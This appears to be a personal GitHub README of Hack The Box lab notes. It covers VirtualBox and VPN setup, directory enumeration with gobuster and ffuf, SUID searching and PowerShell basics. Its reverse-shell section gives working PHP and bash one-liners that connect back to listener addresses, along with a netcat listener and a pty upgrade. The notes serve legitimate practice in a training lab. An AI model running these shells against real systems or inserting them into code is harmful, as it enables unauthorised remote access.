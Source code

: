# HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
```php
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
```
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```

### Password Crack

- [Free Password Hash Cracker](https://crackstation.net/)
